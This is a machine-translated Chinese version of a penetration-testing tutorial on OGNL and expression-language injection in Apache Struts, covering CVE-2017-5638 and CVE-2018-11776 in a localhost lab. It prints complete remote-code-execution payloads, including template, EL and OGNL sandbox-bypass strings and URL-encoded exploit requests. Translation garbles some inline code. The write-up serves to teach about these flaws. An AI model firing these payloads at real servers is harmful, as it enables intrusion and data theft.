






# 在 Apache Struts 中利用 OGNL 注入| Pentest-Tools.com

> 原文：<https://pentest-tools.com/blog/exploiting-ognl-injection-in-apache-struts>

让我们理解 OGNL 注入在 Apache Struts 中是如何工作的。我们将以 Struts 中的两个关键漏洞为例: [CVE-2017-5638](https://nvd.nist.gov/vuln/detail/CVE-2017-5638) (Equifax 违规)和 [CVE-2018-11776](https://nvd.nist.gov/vuln/detail/CVE-2018-11776) 。

Apache Struts 是一个免费的开源框架，用于创建优雅的现代 Java web 应用程序。它有自己的关键漏洞，其中一个功能，OGNL——对象图导航语言，是许多漏洞的核心。

其中一个漏洞(CVE-2017-5638)促成了 2017 年的 [Equifax](https://en.wikipedia.org/wiki/Equifax) 泄露事件，该事件暴露了超过 1.45 亿美国公民的个人信息。尽管是一家年收入超过 30 亿美元的公司，但它却被 Apache Struts 模型-视图-控制器(MVC)框架中的一个已知漏洞攻击。

本文简要介绍了 Apache Struts，然后将引导您修改一个简单的应用程序，使用 OGNL，并利用它。接下来，它将深入一些针对该平台的公开攻击，并使用 OGNL 注入缺陷来了解这类漏洞。

即使 Java 开发人员熟悉 Apache Struts，但在安全社区中往往不是这样。这就是我们创建这篇博客的原因。

## 内容

请随意使用下面的菜单跳到感兴趣的部分。

1.  **安装 Apache Tomcat 服务器([入门](#1-getting-started) )**

2.  **熟悉 Java 应用在服务器上的工作方式([网络服务器基础](#2-web-server-basics) )**

3.  **一看一个 Struts app ( [Struts 应用实例](#3-struts-application-example) )**

4.  **表情语言注射([表情语言注射](#4-expression-language-injection) )**

5.  **了解 OGNL 注入([对象图导航语言注入](#5-object-graph-navigation-language-injection) )**

6.  **CVE-2017-5638 根本原因( [CVE-2017-5638 根本原因](#6-cve-2017-5638-root-cause) )**

7.  **CVE-2018-11776 根本原因([)CVE-2018-11776 根本原因](#7-cve-2018-11776-root-cause) )**

8.  **解释 OGNL 喷射有效载荷([了解 OGNL 喷射有效载荷](#8-understanding-ognl-injection-payloads) )**

## 1.入门指南

运行易受攻击的 Struts 应用程序需要安装 Apache Tomcat web 服务器。该软件包的最新版本可以从[下载，这里是](https://tomcat.apache.org/download-90.cgi)的 ZIP 存档。将二进制文件解压到您选择的位置(我们使用/var/tomcat ),然后继续:

```
cd /var/tomcat/bin # Go to the extracted folder
chmod +x *.sh      # Set scripts as executable
./startup.sh       # Run the startup script
```

转到`http://localhost:8080/`并检查它是否正在运行。

如果是这样的话，我们准备下载一个旧版本的 Apache Struts 框架，它容易受到我们想要演示的攻击。[这个页面](https://archive.apache.org/dist/struts/2.3.30/)提供了符合我们需求的 Struts 版本 2.3.30。

提取了归档文件的内容后，您应该在/ `apps`位置下有文件`struts2-showcase.war` >。这是编译好的，准备部署一个使用 Struts 的演示应用程序。只需将 WAR 文件复制到`/var/tomcat/webapps`中，进入 http://localhost:8080/struts 2-showcase/showcase . action 查看是否有效。

## 2.Web 服务器基础

如果您很好地掌握了与 Java web 应用程序相关的简单概念，比如 servlets，那么您已经领先了。如果你对 [Java servlet](https://en.wikipedia.org/wiki/Java_servlet) 一无所知，可以说它们是一些组件，目的是创建 web 容器，用于在 [web 服务器](https://pentest-tools.com/website-vulnerability-scanning/website-scanner)上托管 web 应用程序；他们还处理对像`/struts2-showcase`这样的 Java 应用的请求。

为了处理 servlets，web 服务器(例如 Apache Tomcat)需要一些组件:

*   [Apache Coyote](https://en.wikipedia.org/wiki/Apache_Tomcat#Coyote) 是支持 HTTP/1.1 协议的连接器。它允许与 servlet 容器组件 Apache Catalina 进行通信。

*   [Apache Catalina](https://en.wikipedia.org/wiki/Apache_Tomcat#Catalina) 容器决定当 Tomcat 接收 HTTP 请求时需要调用哪些 servlets。它还将 HTTP 请求和响应从文本转换成 servlets 使用的 Java 对象。

你可以在这里[找到](https://jcp.org/aboutJava/communityprocess/final/jsr369/index.html)关于 Java servlet 规范的所有细节(最新版本是 4.0)。

### Apache Struts 基础

像 Java web 应用程序一样，使用 Apache Struts 框架的应用程序可以有多个 servlets。全面理解这个框架来构建 web 应用程序并不在本文的讨论范围之内，本文只涉及了一些基本概念。你可以通过[循序渐进的教程](https://www.tutorialspoint.com/struts_2/index.htm)来扩展你的知识。

Apache Struts 框架依赖于 MVC ( [模型-视图-控制器](https://en.wikipedia.org/wiki/Model%E2%80%93view%E2%80%93controller))架构模式。它对应用程序很有用，因为它可以分离[主要应用程序组件](https://www.tutorialspoint.com/struts_2/struts_architecture.htm):

*   **Model**–表示应用程序数据，例如，处理“订单”等数据的类

*   **视图**–是应用程序的输出，可视化部分

*   **控制器**–接收用户输入，使用模型生成视图

*   **动作**–Apache Struts 中的模型

*   **拦截器**——控制器的一部分，这些是钩子，可以在处理请求之前或之后调用

*   **值堆栈/OGNL**–一堆对象，如模型或动作对象

*   **结果/结果类型**–用于选择业务逻辑后的视图

*   **查看技术**–处理数据的显示方式

下面你可以看到 Apache Struts web 应用程序的一般架构:

控制器接收到一个 [HTTP 请求](https://pentest-tools.com/exploit-helpers/http-request-logger)，而 *FilterDispatcher* 负责根据请求调用正确的动作。然后执行操作，视图组件准备结果并在 HTTP 响应中将其发送给用户。

## 3.Struts 应用程序示例

从头编写一个 Struts 应用程序需要一些时间，所以我们将使用一个已经可用的 rest-showcase 演示应用程序，它是一个简单的带有基本前端的 REST API。要编译应用程序，我们只需将 *cd* 放入其目录，并使用 [Maven](https://maven.apache.org/) 构建它:

```
cd struts-2.3.30/src/apps/rest-showcase/
mvn package
```

在*目标*目录中，我们应该会找到以下文件:`struts2-rest-showcase.war`。你可以把文件复制到 Tomcat 服务器的 *web app* s 目录下安装，比如`/var/tomcat/webapps`。

这是应用程序的源代码:

 1。`Order.java`是**的型号**。它是一个存储订单信息的 Java 类。

```
public class Order {
    String id;
    String clientName;
    int amount;
    …
}
```

2.`OrdersService.java`是一个助手类，它将订单存储在 HashMap 中并管理它们。

```
public class OrdersService {
    private static Map<String,Order> orders = new HashMap<String,Order>();
    …
}
```

3.OrderController.java 和 T4 是 Struts 应用程序的动作控制器。

4.我们还可以看到代表**视图**的多个 JSP 文件。

5.以及`web.xml`、`struts.xml`等配置文件。

### 服务器端模板和注入

JSP 通过混合静态 HTML 和在服务器上执行的动态代码来生成动态 HTML 代码。类似于 PHP，可以混合 Java 和 HTML 代码。下面是一个[的例子](https://www.tutorialspoint.com/jsp/jsp_form_processing.htm):

```
<li><p><b>First Name:</b>
<%= request.getParameter("first_name")%>
</p></li>
<li><p><b>Last  Name:</b>
<%= request.getParameter("last_name")%>
</p></li>
```

如上面的代码片段所示，我们可以在 HTML 代码中使用`request`对象，并调用 **getParameter** 函数，该函数返回参数 *first_name* 和 *last_name* 的值。

为了遵循 MVC 设计模式并避免视图(JSP)和模型/控制器(Java)之间的复杂混合，可以在 JSP 文件中使用[表达式语言](https://en.wikipedia.org/wiki/Unified_Expression_Language)。这是一种特殊的编程语言，使视图能够与 Java 应用程序通信:

盒子周长为:$ { 2*box . width+2*box . height }

这个功能也被称为**服务器端模板**，因为它允许在服务器上创建 HTML *模板*，以便于管理 HTML 和 Java 代码的混合。有多种服务器端模板引擎可用，如 FreeMarker、Velocity 或 Thymeleaf。

在这一点上，我们不仅在后端有 Java，而且通过模板引擎有一些特殊的编程语言，这可能是[服务器端模板注入](https://portswigger.net/blog/server-side-template-injection)漏洞的适当基础。

与其他漏洞一样，问题发生在模板引擎解析或解释用户提供的数据时。由于它们的实用性在于它们提供的许多特性，模板引擎通常包括一个调用函数的方法，这为执行操作系统命令打开了大门。

使用 FreeMarker 模板引擎检查此示例:

```
<head>
<title>${title}</title>
</head>
…
<#if animals.python.price == 0>
Pythons are free today!
</#if>
```

在上面的代码中，有一个动态生成的标题，如果满足某个条件，还会显示一条消息。

攻击者可以打印动态内容，这可能是应用程序配置数据等敏感信息。此外，如果模板引擎允许，攻击者可以执行操作系统命令。怎么会？通过滥用模板引擎的功能。以下是 FreeMarker 的一个示例:

```
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("id") }
```

## 4.表达式语言注入

表达式语言用于创建服务器端模板，正因为如此，它也可以被视为服务器端模板引擎。但是，由于它也满足其他目的，它的漏洞严格来说不是注入类型。以下是一些[例子](https://docs.oracle.com/javaee/5/tutorial/doc/bnahq.html):

```
${customer.address["street"]}
${mySuit == "hearts"}
${customer.age + 20}
#{customer.age}
${requestScope[’javax.servlet.forward.servlet_path’]}
```

用户可能能够执行用户提供的表达式语言代码，因此这意味着应用程序可能容易受到表达式语言注入的攻击。正如这篇[论文](https://www.mindedsecurity.com/fileshare/ExpressionLanguageInjection.pdf)所解释的，因为使用了`${EL}`语法，表达式语言的缺陷很容易被发现。例如，一个简单的数学运算，如`${9999+1}`将被计算为`10000`，这可能在响应中可见。

即使这对攻击者来说不是很有用，也可以使用表达式语言的默认范围来检索实际信息，例如＄{ application scope }或＄{ request scope }。

进一步来看，表达式语言注入可以允许会话对象修改，并将用户权限提升到管理员级别:

```
${pageContext.request.getSession().setAttribute("admin",true)}
```

最后，甚至有可能远程执行代码，如下所示:

```
${pageContext.getClass().getClassLoader().getParent().newInstance(pageContext.request.getSession().getAttribute("arr").toArray(pageContext.getClass().getClassLoader().getParent().getURLs())).loadClass("Malicious").newInstance()}
```

通过拒绝用户向表达式语言解析函数提供的输入，保持所有依赖关系的更新，甚至通过在可能的情况下从用户输入中正确转义`#{`和`${`序列，可以防止这种类型的漏洞。

## 5.对象图导航语言注入

对象图导航语言( [OGNL](https://en.wikipedia.org/wiki/OGNL) )是一种面向 Java 的开源表达式语言。OGNL 的[主要功能](https://commons.apache.org/proper/commons-ognl/index.html)是获取和设置对象属性:“*你在 Java 中能做的大部分事情在 OGNL 都是可能的*”

如果我们要处理订单，如下所述，

```
public class Order {
    String id;
    String clientName;
    int amount;
    …
}
```

在 JSP 文件中可以直接访问订单属性，如下所示:

```
<!DOCTYPE html>
<%@taglib prefix="s" uri="/struts-tags" %>
...
<s:form method="post" action=`**`%{#request.contextPath}/orders/%{id}`**` cssClass="form-horizontal" theme="simple">
<s:hidden name="_method" value="put" />`
ID
`<s:textfield id=`**`"id"`**` name="id" disabled="true" cssClass="form-control"/>`
Client
`<s:textfield id=`**`"clientName"`**` name="clientName" cssClass="form-control"/>`
Amount
`<s:textfield id=`**`"amount"`**` name="amount" cssClass="form-control" />
<s:submit cssClass="btn btn-primary"/>
</s:form>
```

使用`%{code}`和`${code}`序列评估 OGNL 表达式。如其[文件](https://commons.apache.org/proper/commons-ognl/language-guide.html)所述，OGNL 允许:

*   访问属性，如`name`或`headline.text`

*   调用方法如`toCharArray()`

*   从数组中访问元素，如`listeners[0]`

*   或者甚至把它们结合起来:`name.toCharArray()[0].numericValue.toString()`

也可以使用变量(`#var = 99`)，创建数组(`new int[] { 1, 2, 3 }`)或者映射(`#@java.util.LinkedHashMap@{ "foo" : "foo value", "bar" : "bar value" }`)，甚至访问静态字段(`@class@field`或者调用静态方法:`@class@method(args)`)。

OGNL 是一种强大的语言，但是在 Apache Struts 中将用户提供的输入视为 OGNL 会影响安全性。让我们举一个简单的例子，在 rest-showcase 应用程序中引入一个漏洞。

对于所有的`Order`属性，我们都有 getters 和 setters，例如:

```
public String getClientName() {
    return clientName;
}
public void setClientName(String clientName) {
    this.clientName = clientName;
}
```

通过导入三个额外的包并调用`TextParseUtil.translateVariables`方法，可以修改 setter 使其易受 OGNL 注入的攻击，然后该方法将对其进行评估。在我们的例子中，修改检查了`clientName`参数中的值。

```
import com.opensymphony.xwork2.ActionContext;
import com.opensymphony.xwork2.util.TextParseUtil;
import com.opensymphony.xwork2.util.reflection.ReflectionContextState;
…
```

```
public void setClientName(String clientName) {
    ReflectionContextState.`**`setDenyMethodExecution`**`(ActionContext.getContext().getContextMap(), false);`
    `this.clientName = `**`TextParseUtil.translateVariables`**`(clientName, ActionContext.getContext().getValueStack());
```

`translateVariables`方法到达如下代码:

```
TextParser parser = ((Container)stack.getContext().get(ActionContext.CONTAINER)).getInstance(TextParser.class);
return `**parser.evaluate**`(openChars, expression, ognlEval, maxLoopCount);
```

这将计算 OGNL 表达式(OgnlTextParser.java)。

接下来，我们可以重新编译应用程序，启动它，并尝试利用`clientName`参数中的漏洞。测试这个的最简单的方法是使用一个简单的数学运算，比如`%{999+1}`。

修改订单后，客户端名称将被解析为 OGNL，通过成功执行数学运算来确认。

现在我们知道参数是易受攻击的，我们可以在测试中使用它。有一点需要注意，在调用`translateVariables`函数之前，我们调用`setDenyMethodExecution`。这是必要的，因为当设置参数值时，正如我们在这里所做的，作为一种保护措施，*方法执行*被拒绝，我们将不能执行任何方法。

如果在利用阶段，您在类似的地方遇到漏洞，则可以在任何方法调用之前直接从有效负载启用方法执行:

```
(#context['xwork.MethodAccessor.denyMethodExecution']=false)
```

谢谢， [mmolgtm](https://twitter.com/mmolgtm) 指出这一点！

### 调试 Java 应用程序

在 IDE 的内置调试器中运行 Java 应用程序可以提高对应用程序和漏洞的理解，因为它提供了一个关于漏洞如何工作的清晰、逐步的视图。

调试易受攻击的应用程序的好处包括能够在代码中的任何位置设置断点，以及检查和修改所有变量。

使用旧的 Java 应用程序，如 Struts 2.3.30，可能需要更改一些设置，以便在调试器中编译和运行它。以下是一些建议:

1.  进入**运行>调试>编辑配置**

2.  点击 **+** ，选择 **Maven**

3.  通过选择 Maven 项目来指定工作目录，比如 *rest-showcase*

4.  指定下面的命令行:`jetty:run -f pom.xml` (Jetty 是一个 web 服务器)

在`setClientName`方法上设置断点现在很简单:打开浏览器[http://127 . 0 . 0 . 1:8080/struts 2-rest-showcase/orders . XHTML](http://127.0.0.1:8080/struts2-rest-showcase/orders.xhtml)，选择其中一个订单的 **Edit** ，按 **Submit** 编辑订单。这将触发对`setClientName`的调用，并命中断点。

## 6.CVE-2017-5638 根本原因

**CVE-2017-5638** 是 Struts 中公开最多的漏洞，主要是因为它被用于 **Equifax** 数据泄露。安全社区仔细看了一下，这里只是[两个](https://blog.gdssecurity.com/labs/2017/3/27/an-analysis-of-cve-2017-5638.html)的例子。

漏洞可从 [Exploit-DB](https://www.exploit-db.com/exploits/41570/) 下载并运行:

```
python CVE-2017-5638.py http://localhost:8080/struts2-showcase/showcase.action "touch /tmp/pwned"
[*] CVE: 2017-5638 - Apache Struts2 S2-045
[*] cmd: touch /tmp/pwned
```

结果应该是在“/tmp/pwned”位置创建一个文件:

CVE-2017-5638 的问题是框架和使用它的应用程序不需要做任何事情，它代表了最坏的情况。

调试器是了解漏洞来源的最快方法。使用它在 translateVariables 方法上放置一个断点，利用此漏洞调用该方法，并运行公共利用。

```
python CVE-5638.py http://127.0.0.1:8080/struts2-rest-showcase/ 'ls -la /'
```

这提供了对完整堆栈跟踪的查看，包括所有需要的数据。下面是结果:

如果我们浏览堆栈，我们可以清楚地看到正在发生的事情。

1.  它在调用 prepare.wrapRequest(request)的`doFilter(…)`方法中处理请求；方法

2.  `wrapRequest`呼叫`dispatcher.wrapRequest(request);`

3.  而在这种方法中，我们可以发现一些有趣的东西:

```
String contenttype = request.getContentType(); if (contenttype != null && content_type.contains("multipart/form-data")) {
    request = new MultiPartRequestWrapper(mpr, request, getSaveDir(), provider, disableRequestAttributeValueStackLookup);`} else {
    request = new StrutsRequestWrapper(request, disableRequestAttributeValueStackLookup);
}
```

如果请求的`Content-Type`头包含`multipart/form-data`字符串，框架将使用**MultiPartRequestWrapper**类。

1.  接下来解析请求:multi.parse(request，saveDir)；

2.  此方法尝试解析请求，但是当它发现 Content-Type 无效时将引发异常:

```
if ((null == contentType) || ( !contentType.toLowerCase(Locale.ENGLISH).startsWith(MULTIPART))) { throw new InvalidContentTypeException( format("the request doesn't contain a %s or %s stream, content type header is %s", MULTIPARTFORMDATA, MULTIPART_MIXED, contentType));
```

1.  这个异常导致对执行以下方法的`buildErrorMessage`的调用:**localized textutil . find text**(this . getclass()，errorKey，defaultLocale， **e.getMessage()** ，args)；(其中 **e.getMessage()** 是包含漏洞的错误消息)

2.  这导致调用 return `findText(aClass, aTextName, locale, defaultMessage, args, valueStack);`

3.  然后调用`result = getDefaultMessage(aTextName, locale, valueStack, args, defaultMessage);`

4.  接下来，将有一个调用执行异常:`MessageFormat mf = buildMessageFormat(TextParseUtil.translateVariables(message, valueStack), locale);`

5.  以及将执行异常的“translateVariables”方法:请求不包含 multipart/form-data 或 multipart/mixed stream，内容类型头为%{(# *='multipart/form-data ')。(#dm=@ognl。OgnlContext @ DEFAULT*MEMBER _ ACCESS)…

最后，总体思路很简单:一个带有 OGNL 表达式的无效`Content-Type`头触发 CVE-2017-5638。出于某种原因，带有 OGNL 表达式的异常消息被解析。

## 7.CVE-2018-11776 根本原因

为了利用这个漏洞，我们需要 Struts 2.5.16，可以用 ZIP 格式[在这里](https://archive.apache.org/dist/struts/2.5.16/)。如这里的[或这里的](https://lgtm.com/blog/apache_struts_CVE-2018-11776-part2)或[所述，在定制配置下可以成功利用它:](https://github.com/jas502n/St2-057)

1.  转到 struts-2.5.16 目录:`cd struts-2.5.16/`

2.  并搜索以下文件*struts-action chaining . XML*:`find . -name struts-actionchaining.xml`

3.  编辑 XML 文件，如`./src/apps/showcase/src/main/resources/struts-actionchaining.xml`

4.  并修改< 【 > tag to have the following value:

```
<struts>
  <package name="actionchaining" extends="struts-default">
    <action name="actionChain1" class="org.apache.struts2.showcase.actionchaining.ActionChain1">
      <result type="redirectAction">
        <param name = "actionName">register2</param>
      </result>
    </action>
  </package>
</struts>
```

This allows us to use the  **struts2-showcase** 应用作为目标。要编译它，必须执行以下步骤:

1.  `cd src/apps/showcase/` #转到 Showcase 目录

2.  编译它(并跳过测试)

3.  `cp target/struts2-showcase.war /var/tomcat/webapps/` #复制到 Tomcat

现在，我们可以通过在 web 浏览器中加载以下内容来检查应用程序是否易受攻击:

`http://127.0.0.1:8080/struts2-showcase/${22+22}/actionChain1.action`

我们应该会重定向到[http://127 . 0 . 0 . 1:8080/struts 2-showcase/](http://127.0.0.1:8080/struts2-showcase/44/register2.action)[**44**](http://127.0.0.1:8080/struts2-showcase/44/register2.action)[/register 2 . action](http://127.0.0.1:8080/struts2-showcase/44/register2.action)

包含大量技术实现细节的工作漏洞可在[这里](https://lgtm.com/blog/apache_struts_CVE-2018-11776-exploit)获得。为了利用这个漏洞，我们使用了用 C 语言编写的[漏洞。](https://github.com/Semmle/SecurityExploits/blob/master/Apache/Struts/CVE-2018-11776/struts-attacker/src/startcalc.c)

我们需要发送两个请求，并在 URL 中编码以下有效负载:

```
1.${(#_=#attr['struts.valueStack']).(#context=#_.getContext()).(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames(''))}
```

```
2.${(#_=#attr['struts.valueStack']).(#context=#_.getContext()).(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#context.setMemberAccess(#dm)).(#sl=@java.io.File@separator).(#p=new java.lang.ProcessBuilder({'bash','-c',**'xcalc'**})).(#p.start())}
```

利用是这样发生的:

```
3\. http://127.0.0.1:8080/struts2-showcase/%24%7B%28%23_%3D%23attr%5B%27struts.valueStack%27%5D%29.%28%23context%3D%23_  .getContext%28%29%29.%28%23container%3D%23context%5B%27com.opensymphony.xwork2.ActionContext.container

%27%5D%29.%28%23ognlUtil%3D%23container

.getInstance%28%40com.opensymphony.xwork2.ognl.OgnlUtil%40class%29%29.%28%23ognlUtil.setExcludedClasses

%28%27%27%29%29.%28%23ognlUtil

.setExcludedPackageNames%28%27%27%29%29%7D/actionChain1.action](http://127.0.0.1:8080/struts2-showcase/$%7B(%23_%3D%23attr%5B'struts.valueStack'%5D)

.(%23context%3D%23_.getContext()).(%23container%3D%23context%5B'com.opensymphony.xwork2.ActionContext.container'%5D).
(%23ognlUtil%3D%23container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).

(%23ognlUtil.setExcludedClasses('')).

(%23ognlUtil.setExcludedPackageNames(''))%7D/actionChain1.action)
```

```
4\. http://127.0.0.1:8080/struts2-showcase/%24%7B%28%23_%3D%23attr%5B%27struts.valueStack%27%5D%29.%28%23context%3D%23_

.getContext%28%29%29.%28%23dm%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS%29.%28%23context.setMemberAccess%28%23dm%29%29.%28%23sl%3D%40java.io

.File%40separator%29.%28%23p%3Dnew%20java.lang.ProcessBuilder%28%7B%27bash%27%2C%27-c%27%2C%27xcalc%27%7D%29%29.%28%23p.start%28%29%29%7D/actionChain1.action
```

```
http://127.0.0.1:8080/struts2-showcase/$%7B(%23_%3D%23attr%5B'struts.valueStack'%5D).(%23context%3D%23_.getContext()).(%23dm%3D@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)

.(%23context.setMemberAccess(%23dm)).(%23sl%3D@java.io.File@separator).(%23p%3Dnew%20java.lang.ProcessBuilder(%7B'bash'%2C'-c'%2C'xcalc'%7D)).(%23p.start())%7D/actionChain1.action)
```

预期的结果应该是弹出计算器应用程序:

看看调试器中的有效负载有助于理解它为什么工作。注意，string/struts 2-showcase/${2+4}/actionChain1 . action 中的$ { 2+4 }在 Struts 中被称为**命名空间**，action chain 1 就是动作。

```
if (namespace == null) {
	namespace = invocation.getProxy().getNamespace(); // namespace is “/${2+4}”
}
…
String tmpLocation = actionMapper.getUriFromActionMapping(new ActionMapping(actionName, namespace, method, null));
setLocation(tmpLocation); // tmpLocation is “/${2+4}/register2.action”
super.execute(invocation);
```

1.**执行**方法也调用`super.execute(invocation);`

2.然后这个方法被称为:

```
/**
Implementation of the `execute` method from the `Result` interface. This will call the abstract method
{@link #doExecute(String, ActionInvocation)} after optionally evaluating the location as an OGNL evaluation
*/
public void execute(ActionInvocation invocation) throws Exception {
    lastFinalLocation = conditionalParse(location, invocation);
    doExecute(lastFinalLocation, invocation);
}
```

```
/**
Parses the parameter for OGNL expressions against the valuestack
…
*/
protected String conditionalParse(String param, ActionInvocation invocation)
if (parse && param != null && invocation != null) {
    return TextParseUtil.translateVariables(
        param,
        invocation.getStack(),
        new EncodingParsedValueEvaluator());
```

结果是执行任意 OGNL 表达式的可能性。关于这个问题的更多细节是[这里](https://lgtm.com/blog/apache_struts_CVE-2018-11776)和[这里](https://lgtm.com/blog/apache_struts_CVE-2018-11776-part2)。其要点是，当使用动作链时，来自用户的名称空间被 OGNL 解析。

## 8.了解 OGNL 注入有效载荷

如果你想知道为什么公共漏洞中的有效载荷不是这样的:`%{@java.lang.Runtime@getRuntime().exec('command')}`，有两个原因。一个是指 Struts 维护者实现的保护机制，另一个与功能相关(读取命令的输出或使其跨平台)。

有用的细节可以在[这一页](https://lgtm.com/blog/apache_struts_CVE-2018-11776-exploit)上找到，但这里有一个简短的总结:

1.  在有效载荷执行期间作为`_memberAccess`可用的`SecurityMemberAccess`类决定 OGNL 可以做什么，但是可以选择使用更宽松的`DefaultMemberAccess`类。

    1.  另一种保护是将类和包名列入黑名单。

    2.  不同的缓解可能是对调用静态方法的限制——这可以通过`_memberAccess`类的`allowStaticMethodAccess`字段来实现。

### CVE-2017-5638 和 CVE-2018-11776 有效载荷:

```
(#_='multipart/form-data').

(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).

(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).

(#context['xwork.MethodAccessor.denyMethodExecution']=false).

(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).>

(#ognlUtil.getExcludedPackageNames().clear()).

(#ognlUtil.getExcludedClasses().clear()).

(#context.setMemberAccess(#dm)))).

(#cmd='/usr/bin/touch /tmp/pwned').(#iswin=@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).

(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).

(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).

(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).

(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())
```

1.  # _ = '**multipart/form-data '**–需要一个随机变量，因为`multipart/form-data`字符串在我们的有效负载中是触发漏洞所必需的

2.  **#dm=@ognl。OgnlContext@DEFAULT *成员*访问**–使用 DefaultMemberAccess 的值创建 dm 变量(比 SecurityMemberAccess 更宽松)

3.  **# *memberAccess？(#*member access = # DM)**–如果`_memberAccess`类存在，我们用来自`dm`变量的`DefaultMemberAccess`替换它

4.  **# container = # context[' com . open symphony . xwork 2 . action context . container ']**-从上下文中获取容器；以后有必要

5.  **# ognlUtil = # container . getinstance(@ com . open symphony . xwork 2 . ognl . ognlUtil @ class)**–并使用它获取 ognlUtil 类的实例(我们不能直接这样做，因为它被列入了黑名单–完整列表在。/src/core/src/main/resources/struts-default . XML)

6.  **# ognlutil . getexcludedpackagenames()。clear()**–清除排除的包名

7.  **# ognlutil . getexcludedclass()。clear()**–清除排除的类

8.  **# context . set member access(# DM)**–将`DefaultMemberAccess`设置为当前上下文

9.  **# cmd = '/usr/bin/touch/tmp/pwned '**-定义我们要执行的命令

10.  **# iswin =(@ Java . lang . system @ getProperty(' OS . name ')。toLowerCase()。包含(' win ')**–如果应用程序在 Windows 上运行，则保存在变量中(跨平台利用)

11.  **#cmds=(#iswin？{'cmd.exe '，'/c '，#cmd}:{'/bin/bash '，'-c '，# cmd })**-指定如何根据操作系统(cmd.exe 或 bash)执行命令

12.  **# p = new Java . lang . process builder(# cmds)**–使用`ProcessBuilder`类运行命令(参数)

13.  **# p . redirect errorstream(true)**–查看命令的错误输出可能也很有用

14.  **# process = # p . start()**–执行命令

15.  **# ROS =(@ org . Apache . struts 2 . servletactioncontext @ getResponse()。getOutputStream())**–获取响应的输出流，以将数据发送回用户

16.  **@ org . Apache . commons . io . iou tils @ copy(# process . getinputstream()，# ROS)**–获取执行命令的输出

17.  **# ROS . flush()**–flush 以确保我们发送了所有数据

剥削 CVE-2018-11776 有些不同:

1.  **# _ = # attr[' struts . valueStack ']**–使用 *attr* 获取 value stack

2.  **#context=#_。get context()**–然后用于获取上下文

3.  **# container = # context[' com . open symphony . xwork 2 . action context . container ']**–获取容器

4.  **# ognlUtil = # container . getinstance(@ com . open symphony . xwork 2 . ognl . ognlUtil @ class)**–获取对 ognlUtil 类的引用

5.  **# ognlutil . setexcludedclasses(')**–清除排除的类

6.  **# ognlutil . setexcludedpackagenames(')**–清除排除的包名

